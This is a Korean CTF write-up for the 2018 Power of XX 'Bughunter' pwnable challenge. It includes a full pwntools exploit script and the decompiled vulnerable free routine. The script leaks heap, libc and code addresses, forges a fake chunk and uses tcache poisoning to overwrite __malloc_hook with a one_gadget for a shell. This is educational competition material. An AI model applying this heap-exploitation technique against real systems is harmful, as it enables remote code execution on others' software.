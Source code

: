 ```yaml
---
title: Power of XX CTF 2018 - Bughunter
date: 2018-10-24 14:19:53
categories:
- Heap Exploit
- CTF write up
tags:
- Tcache Poisoning
---
```



```c
Your name : wally0813
Hello, wally0813 bughunter!
You have a Money : 10000, efficiency : 10000
1. Bank
2. Shop
3. Work
4. exit
>> 
```

![kakaotalk_20181015_014246706](https://user-images.githubusercontent.com/36659181/47423916-4c167400-d7c1-11e8-99dc-d5d138286a55.png)

예선 3등!ㅎㅎ 본선간다! 본선 못가면 한강갈꺼라고 했는데 진짜 갈뻔했다.. 

예선에서 포너블 5개랑 코딩문제 하나 풀었는데 버그헌터가 제일 재밌어서 라이트업 쓴당ㅎㅎ 2주전이라 기억이 가물가물하다..

그래도 포너블 문제가 다 아는 범위안에서 나와서 다행이였다. 너무 조급하게 풀어서 실수한 것도 많고 생각보다 더 잘 안풀리는 것도 있었다ㅠㅠ 앞으로는 차근차근 풀어야지..



```python
from pwn import *
from time import *

#w = process("./bughunter")
w = remote("54.180.93.73",7777)

def create(address,password):
    w.sendlineafter(">>","1")
    w.sendlineafter(":",address)
    w.sendlineafter(":",password)
    
def delete(idx,address,password):
    w.sendlineafter(">>","2")
    w.sendlineafter(":",str(idx))
    w.sendlineafter(":",address)
    w.sendlineafter(":",password)
    
def leak_h():
    w.sendlineafter(">>","3")
    w.recvuntil("address : ")
    heap = u64(("\x00"+w.recv(6)[1:]).ljust(8,"\x00"))
    return heap

def leak_l():
    w.recvuntil("address : "+"8"*8)
    libc = u64((w.recv(6)).ljust(8,"\x00"))
    return libc

def leak_c():
    w.recvuntil("password : "+"a"*8)
    code = u64((w.recv(6)).ljust(8,"\x00"))
    return code

w.sendlineafter(":","w"*20)

for i in range(0,10):
    for i in range(0,10):
        print i
        w.sendlineafter(">>","3")
        sleep(0.1)
    for i in range(0,10):
        w.sendlineafter(">>","2")
        w.sendlineafter(">>","1")
        w.sendlineafter(":","1")
for i in range(0,40):
    w.sendlineafter(">>","3")
    sleep(0.1)
    
w.sendlineafter(">>","2")
w.sendlineafter(">>","5")
w.sendlineafter(":","30")
w.sendlineafter(">>","1")

for i in range(1,15):
    create(str(i),str(i))
for i in range(1,15):
    delete(i,str(i),str(i))
for i in range(1,15):
    if i == 8:
        create("8"*8,"8"*8)
    if i == 13:
        create("a"*8,"a"*8)
    else:
        create(str(i),str(i))
        
hh = (leak_h() - 0x1500) & 0xfffffffffffff000
ll = leak_l() - 0x3ebca0
cc = leak_c() - 0x1390

log.info("code:: "+hex(cc))
log.info("heap:: "+hex(hh))
log.info("libc:: "+hex(ll))

pay = p64(0)+p64(0x31)
pay += p64(hh+0x2880)+p64(hh+0x28b0)
pay += "w"*0x20
pay += p64(0)+p64(0x31)
pay += "w"*0x20
pay += p64(0)+p64(0x31)
pay += "w"*0x20

create(pay,"w")

want = ((hh+0x2810) - (cc+0x1060))/8
delete(30,str(14),str(14))
delete(want,str(14),str(14))

one = [0x4f2c5, 0x4f322, 0x10a38c]
malloc_hook = ll + 0x3ebc30
pay = p64(malloc_hook)*2
create(pay,"ww")
create("ww","ww")
create(p64(ll+one[2]),p64(ll+one[2]))

w.interactive()

```

익스 알고리즘이 진짜 똥이다ㅎㅎ.. 

main에 다른 메뉴들이 왜 있나 했더니 tcache 때문이엿다. 

how2heap tcache 검색하자마자 데몬팀 블로그 나와서 이거다 싶었다. 

 tcache 때문에 돈을 불려서 계좌를 사야한다. 대강 work랑 shop 여러번 돌려서 30개를 샀다.

tcache는 7개까지 들어가고 그 후엔 일반 bins들과 똑같이 관리되기 때문에 여러 개를 할당해서 leak 해줘야한다.

이걸 이용해 name을 heap에 저장해서 bss 영역까지 leak 할 수 있다.



취약점 찾는거에서 엄청 삽질을 했는데 별거 아닌 곳에 있었다.. 등잔 밑이 어둡다고.. 잘봐야한다...ㅜㅠ

```c
  v0 = check(1LL, &v2);
  v3 = v0;
  if ( v0 )
  {
    if ( list[v2] )
    {
      free(list[v2]);
      free(list[v2]->address);
      free(list[v2]->password);
      list[v2] = 0LL;
      puts("complete!");
    }
```

여기에 취약점이 있다. 리버싱 꼼꼼히 하자..ㅠㅠ

index 맘대로 할당해서 원하는 곳을 free 할 수 있으니 bss 영역을 찾아보자 했는데 free 한건 모두 0으로 초기화 시켜버려서 못한다.

어떻게 하지 생각하다가 index를 엄청 크게줘서 heap 영역에 접근하는 걸 생각했다. 

근데 이게 free 할 때 그냥 free 해 버리면 0이 넣어지는데 이게 address 중복 체크할 때 eof 에러나서 정상적으로 free 해주고 하던가 주소를 일일히 적어주던가 해야하는데 귀찮아서 그냥 전자로 fake chunk를 만들었다.

더 자세하게 적으면 맨 마지막 account를 free 하고 free한 account의 address 부분을 free해준다. 근데 이때 free할 영역의 0x10, 0x18부분에도 chunk 주소가 있어야 한다. 맨 마지막 account create할 때 fake chunk를 만들어 줬다. 이러면 double free bug 가 나고 다시 create 하고 fd 부분에 malloc_hook 주소를 적어준다. 그러면 다 다음 malloc 할 때 이 fd 부분으로 malloc을 하게 됨. 짜잔. 데몬팀 블로그에 tcache poisoning이 적혀있길래 그냥 바로 이걸로 익스했다. 사실 익스하는 법은 fastbin dup이랑 똑같다. 

이 문제 이후로 tcache 엄청 많이 봤다...
